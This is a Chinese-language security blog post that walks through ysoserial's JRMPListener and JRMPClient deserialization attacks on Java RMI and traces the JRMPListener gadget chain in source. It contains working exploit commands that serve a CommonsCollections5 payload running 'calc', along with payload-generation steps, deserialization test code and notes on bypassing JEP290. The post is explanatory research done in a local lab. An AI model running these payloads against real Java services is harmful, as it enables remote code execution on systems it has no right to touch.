# 前言

JRMP是java的一种协议，RMI的通信过程就是通过JRMP协议进行的，JRMP是通过TCP继进行传输的，最近在一些地方看到了关于JRMP的反序列化，包括在RMI反序列化中的利用，对JEP290的绕过，所以打算来跟一跟这个链子

wiki的描述

Java远程方法协议（英语：Java Remote Method Protocol，JRMP）是特定于Java技术的、用于查找和引用远程对象的协议。这是运行在Java远程方法调用（RMI）之下、TCP/IP之上的线路层协议（英语：Wire protocol）。

这并不是一条直接命令执行的链子，而是一条通过打开JRMP监听到达和RMI交互的目的，与RMI的反序列化有一定程度的相似之处，但是这绕过JEP290有一定的用处

# 利用JRMP服务端打客户端

这种方式是将ysoserial中的`exploit/JRMPListener`作为服务端，也就是攻击方进行监听，然后通过发送`payloads/JRMPClient`向我们的`exploit/JRMPListener`进行连接，连接后会返回`exploit/JRMPListener`的gadget对象，然后进行反序列化

攻击流程如下：

- 攻击方在自己的服务器使用`exploit/JRMPListener`开启一个rmi监听
- 往存在漏洞的服务器发送`payloads/JRMPClient`，payload中已经设置了攻击者服务器ip及JRMPListener监听的端口（即启动JRMP服务端的IP和对应端口），漏洞服务器反序列化该payload后，会去连接攻击者开启的rmi监听，在通信过程中，攻击者服务器会发送一个可执行命令的payload（假如存在漏洞的服务器中有使用`org.apacje.commons.collections`包，则可以发送`CommonsCollections`系列的payload），从而达到命令执行的结果。

启动监听

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections5 "calc"
```

生成Client序列化数据

```
java -jar ysoserial.jar JRMPClient "127.0.0.1:1099" > test.bin
```

测试代码（反序列化payload并连接攻击者开启的RMI监听）

```
package ysoserial.JRMP;

import java.io.FileInputStream;
import java.io.ObjectInputStream;

public class test {
    public static void main(String[] args) throws Exception {
        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("D:\\工具\\ysoserial-master\\src\\main\\java\\ysoserial\\JRMP\\test.bin"));
        Object o = fos.readObject();
        System.out.println(o);
    }
}
```



尽管存在JEP290，但是JEP290默认没有对JRMP客户端的反序列化做限制，所以可以打得通

但是在8u231只会对这个进行了修复，当客户端的版本在8u231之后就不行了

# 利用JRMP客户端打服务端

ysoserial中的`exploit/JRMPClient`是作为攻击方的代码，一般会结合`payloads/JRMPLIstener`使用。

攻击流程如下：

- 需要发送`payloads/JRMPLIstener`内容到漏洞服务器中，在该服务器反序列化完成我们的payload后会开启一个RMI的服务监听在设置的端口上。
- 我们还需要在我们自己的服务器使用`exploit/JRMPClient`与存在漏洞的服务器进行通信，并且发送一个gadgets对象，达到一个命令执行的效果。(前面说过RMI协议在传输都是传递序列化，接收数据后进行反序列化操作。)

简单来说就是将一个payload发送到服务器，服务器反序列化操作该payload过后会在指定的端口开启RMI监听，然后通过`exploit/JRMPClient` 去发送攻击 gadgets对象

生成payload

```
java -jar ysoserial.jar JRMPListener 1099 > JRMP.bin
```

反序列化payload来开启一个RMI监听

```
package ysoserial.JRMP;

import java.io.FileInputStream;
import java.io.ObjectInputStream;

public class test {
    public static void main(String[] args) throws Exception {
        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("D:\\工具\\ysoserial-master\\src\\main\\java\\ysoserial\\JRMP\\JRMP.bin"));
        Object o = fos.readObject();
        System.out.println(o);
    }
}
```

发送攻击的Gadget

```
java -cp ysoserial.jar ysoserial.exploit.JRMPClient 127.0.0.1 1099 CommonsCollections5 "calc"
```



这里因为JEP290的原因返回了REJECTED

JEP290只是针对服务端的的反序列化做了过滤

# YSO的JRMP模块分析

## payloads/JRMPListener

对应代码如下

```
public class JRMPListener extends PayloadRunner implements ObjectPayload<UnicastRemoteObject> {

    public UnicastRemoteObject getObject ( final String command ) throws Exception {
        int jrmpPort = Integer.parseInt(command);
        UnicastRemoteObject uro = Reflections.createWithConstructor(ActivationGroupImpl.class, RemoteObject.class, new Class[] {
            RemoteRef.class
        }, new Object[] {
            new UnicastServerRef(jrmpPort)
        });

        Reflections.getField(UnicastRemoteObject.class, "port").set(uro, jrmpPort);
        return uro;
    }


    public static void main ( final String[] args ) throws Exception {
        PayloadRunner.run(JRMPListener.class, args);
    }
}
```

给出的利用链

```
Gadget chain:
* UnicastRemoteObject.readObject(ObjectInputStream) line: 235
* UnicastRemoteObject.reexport() line: 266
* UnicastRemoteObject.exportObject(Remote, int) line: 320
* UnicastRemoteObject.exportObject(Remote, UnicastServerRef) line: 383
* UnicastServerRef.exportObject(Remote, Object, boolean) line: 208
* LiveRef.exportObject(Target) line: 147
* TCPEndpoint.exportObject(Target) line: 411
* TCPTransport.exportObject(Target) line: 249
* TCPTransport.listen() line: 319
```

**测试代码**

采用如下代码调试分析

```
package ysoserial;

import ysoserial.payloads.JRMPListener;

import java.io.*;
import java.rmi.server.UnicastRemoteObject;

public class test {
    public static void main(String[] args) throws Exception {
        JRMPListener jrmpListener = new JRMPListener();
        UnicastRemoteObject object = jrmpListener.getObject("9999");
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream bjos = new ObjectOutputStream(bos);
        bjos.writeObject(object);


        ByteArrayInputStream bait = new ByteArrayInputStream(bos.toByteArray());
        ObjectInputStream ojis = new ObjectInputStream(bait);
        Object o = ojis.readObject();

    }
}
```



这里调用了`Reflections.createWithConstructor`传入四个参数来获取一个UnicastRemoteObject对象，第一个参数是ActivationGroupImpl，第二个参数是RemoteObject类，第三个是一个实例化Class数组，数组中里面是`RemoteRef.class`，第四个是一个实例化Object数组，里面是实例化UnicastServerRef并传入对应的端口

第一个参数使用的是 ActivationGroupImpl 是因为在利用的时候，因为本身没有readObject，要去寻找父类的readObject，就是利用的 UnicastRemoteObject 的 readObject 函数，第二个参数需要满足两个条件：

- 要为 UnicastRemoteObject 的父类
- 不能在创建的过程中有其他什么多余的操作，满足这两个条件的两个类是：RemoteObject、RemoteServer

从最里面的开始分析，也就是实例化UnicastServerRef开始



这里直接在构造函数中直接实例化了LiveRef类

```
public LiveRef(int var1) {
    this(new ObjID(), var1);
}
```

跟进ObjID



new一个UID赋值给space成员变量，随机赋一个值给objNum

**注：`ObjID`用于标识导出到RMI运行时的远程对象。 导出远程对象时，将根据用于导出的API来隐式或明确地分配一个对象标识符**

回到LiveRef，继续跟进来到了



var2是传进来的端口

跟进TCPEndpoint.getLocalEndpoint

```
public static TCPEndpoint getLocalEndpoint(int var0) {
    return getLocalEndpoint(var0, (RMIClientSocketFactory)null, (RMIServerSocketFactory)null);
}
```

跟进getLocalEndpoint

**`getLocalEndpoint`方法说明：**

获取指定端口上本地地址空间的终结点。如果端口号为0，则返回共享的默认端点对象，其主机名和端口可能已确定，也可能尚未确定

这里剩下的就不跟了，在https://www.cnblogs.com/nice0e3/p/14333695.html#unicastserverref%E5%88%86%E6%9E%90师傅的博客中也能看到清晰的过程，这里主要还是一个将ip和端口都赋值给一个变量的问题

回到LiveRef，继续跟进this



可以看到刚才过程的结果就是给这里传进来的var2赋值

这里差不多就结束了，接下来回到JRMPListener，进入到Reflections.createWithConstructor



根据传进来的参数，这里可以将这排代码稍作简化

```
Constructor<? super T> objCons = RemoteObject.class.getDeclaredConstructor(RemoteRef.class);
```

就是获取了一个RemoteObject的构造函数，传入的参数为RemoteRef.class

接下来就是暴力反射，向下步进来到

```
Constructor<?> sc = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(classToInstantiate, objCons);
```

`newConstructorForSerialization`这个方法返回的是一个无参的constructor对象，但是绝对不会与原来的constructor冲突，被称为munged 构造函数

**使用场景**

`reflectionFactory.newConstructorForSerialization` 因为无需默认构造函数就可以反射生成对象，这个属性在很多的序列框架可以使用，比如 xml 转换成 bean，有了这个特性对 bean的 class 就没有特殊的要求，无需强制的构造函数就可以生成相应的bean的对象

```
public Constructor<?> newConstructorForSerialization(Class<?> var1, Constructor<?> var2) {
    return var2.getDeclaringClass() == var1 ? var2 : this.generateConstructor(var1, var2);
}
```

这个方法接受两个参数，第一个是指定的Class，第二个是一个Constructor

这里也第二个参数为什么要是UnicastRemoteObject 的父类的原因，ActivationGroupImpl是UnicastRemoteObject的子类，获取ActivationGroupImpl的构造函数要传入一个父类的Constructor

在这里，前面参数为`ActivationGroupImpl.class`，指定获取`ActivationGroupImpl.class`的 Constructor。后面的参数为反射获取RemoteObject的RemoteRef类型构造方法获取到的Constructor类，即

```
protected RemoteObject(RemoteRef newref) {
    ref = newref;
}
```

最后创建一个`ActivationGroupImpl`实例化对象并返回



回到`JRMPListener的getObject`



这里向上转型成了一个UnicastRemoteObject

然后通过反射将UnicastRemoteObject的port参数设置成了我们传入getObject的端口，最后返回

在实例化JRMPListener调用getObject方法后，就是我们测试写入的序列化和反序列化代码


刚才也提到了最后返回的是一个UnicastRemoteObject对象，我们利用的就是UnicastRemoteObject的readObject方法


跟进reexport



跟进exportObject



继续跟进


跟进exportObject



继续跟进

一路跟进到TCPTransport的exportObject


这里开启了listen，所以反序列化JRMPListener开启了RMI监听

然后就可以用RMI反序列化的方法发送一个Gadget去反序列化来攻击，但是需要绕过JEP290


# 写在最后

这次主要是对ysoserial里面的payloads/JRMPListener做了一个分析，可以发现，这里的反序列化并不是造成RCE，而是通过反序列化来开启一个RMI监听，然后利用RMI反序列化来实现最后的命令执行


参考链接

https://www.cnblogs.com/nice0e3/p/14333695.html#0x02-%E8%B0%83%E8%AF%95%E5%88%86%E6%9E%90

https://www.star123.top/2021/04/05/jrmp%E6%94%BB%E5%87%BB%E6%80%9D%E8%B7%AF%E5%88%86%E6%9E%90/
